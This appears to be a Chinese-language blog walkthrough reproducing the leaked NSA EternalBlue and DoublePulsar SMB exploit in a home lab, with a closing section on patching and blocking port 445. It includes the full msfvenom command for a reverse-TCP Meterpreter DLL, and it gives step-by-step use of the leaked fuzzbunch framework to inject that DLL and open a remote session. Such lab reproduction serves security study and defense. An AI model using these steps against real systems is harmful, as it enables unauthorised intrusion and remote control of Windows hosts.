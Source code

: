 ```yaml
---
title: 复现 NSA Enternalblue SMB 漏洞
tags:
  - Enternalblue
  - Doublepulsar
  - SMB
  - Metasploit
categories: Vulnerability Analysis
keywords:
  - Enternalblue
  - Doublepulsar
  - SMB
  - Metasploit
translate_title: reproduce-nsa-enternalblue-smb-vulnerability
date: 2017-04-27 17:18:08
---
```


2017年4月14日，Shadow Brokers 再次公开了大量从 NSA 的方程式组织（Equation Group）处窃取的攻击工具，这些工具主要针对 Windows 系统的漏洞，其中还有几个 0 day。工具中的 fuzzbunch 是一个类似于 metasploit 的漏洞利用框架，fb.py 是 fuzzbunch 的入口文件，通过该文件可以调用各攻击模块。

泄露的工具可在 Github 下载：<https://github.com/misterch0c/shadowbroker>

# 0x01 影响范围
下图中列举了工具中相关模块所影响的服务和系统。
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/17-4-28/92526918-file_1493343199647_16966.jpg)

# 0x02 漏洞测试
下面使用工具中的 fuzzbunch 框架、Eternalblue 和 Doublepulsar 测试 Windows 下的 SMB 漏洞。首先通过 Eternalblue 利用 MS17-010 漏洞攻击 Windows 系统；然后在 Kali Linux 中用 Metasploit 生成一个能建立反向连接的 DLL，并在 Kali 中监听相应端口；最后使用 Doublepulsar 远程注入恶意 DLL 到目标系统，注入成功后 Kali 将与目标系统建立连接。

## 1. 测试环境
|     PC     |       IP        |  用途  |        备注        |
|:---------- |:--------------- | ------ | ------------------ |
| Win 7 x64  | 192.168.109.1   | 攻击机 | 需安装 [python2.6](https://www.python.org/ftp/python/2.6.6/python-2.6.6.msi)  和 [pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/pywin32-221.win32-py2.6.exe/download) |
| Win 7 x86  | 192.168.109.132 | 靶机   |开启 SMB 服务（445端口）   |
| Kali Linux | 192.168.109.128 | 控制端   | 生成payload 并控制回连会话|
首先需要把工具中的 windows 拷贝到攻击机 Win 7 x64中，然后在 windows 目录下新建一个 listeningposts 文件夹。

## 2. 测试流程
### 1）运行 fuzzbunch 框架
在 cmd 中进入 windows 目录，运行 `python fb.py`。输入目标系统 IP（Win 7 x86）和攻击机 IP（Win 7 x64），输入“no” 不重定向，接着输入项目名新建一个项目。     
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/17-4-28/95094523-file_1493344655277_8614.png)      

### 2）调用 Eternalblue 攻击系统
运行` use Eternalblue`，然后大多数步骤只需按回车使用默认参数即可。    
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/17-4-28/54184530-file_1493344922256_adf5.png)   
下面需要选择 `1）FB` 模式。    
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/17-4-28/61786740-file_1493345114952_f2f3.png)   
接着继续回车，直到成功运行攻击模块。    
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/17-4-28/73280707-file_1493345362094_157db.png)    

### 3）Metasploit 生成恶意 DLL
在 Kali Linux 下使用 Metasploit 生成恶意 DLL,它将在目标系统中建立一个反向连接。这里生成的 DLL必须要与目标系统版本一致，下面生成 32 bit 的 DLL。
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.109.128 LPORT=6666 -f dll > test.dll
```
之后需要将生成的 test.dll 拷贝到攻击机的 D:\\下。

### 4）开启 msf 监听
在 Kali Linux 下，运行 msf，监听 6666 端口。    
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/17-4-28/80220500-file_1493346556508_101d9.png)    

### 5）调用 Doublepulsar 注入 DLL
回到攻击机中，执行 `use Doublepulsar` ，回车使用默认参数直到选择 Function 为2 注入 DLL，然后指定 DLL 的路径。    
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/17-4-28/11038492-file_1493347262266_5c5.png)   
注入成功后将返回如下信息。    
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/17-4-28/68357990-file_1493347997057_2e1f.png)   
但是这里也会出现个问题，多次注入之后目标系统会出错重启。     
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/17-4-28/56721083-file_1493348716416_6f00.png)

### 6）建立连接
DLL 注入到目标系统之后，Kali Linux 将与目标系统建立连接。    
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/17-4-28/82624178-file_1493348105266_34db.png)

# 0x03 防御措施
1. 尽快升级系统补丁     
2. 开启防火墙，并限制 445 端口     
通过以下命令添加防火墙规则：
```
netsh advfirewall firewall add rule name="445" protocol=TCP dir=in localport=445 action=block
```

----
References:   
[1] [NSA工具包之0day Eternalblue 复现笔记](http://blog.injectxx.com/2017/04/18/%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0%E3%80%82/)   
[2] [HOW TO EXPLOIT ETERNALBLUE & DOUBLEPULSAR TO GET AN
EMPIRE/METERPRETER SESSION ON WINDOWS 7/2008](https://www.exploit-db.com/docs/41896.pdf)   
[3] [NSA Fuzzbunch分析与利用案例](https://www.vulbox.com/knowledge/detail/?id=6)
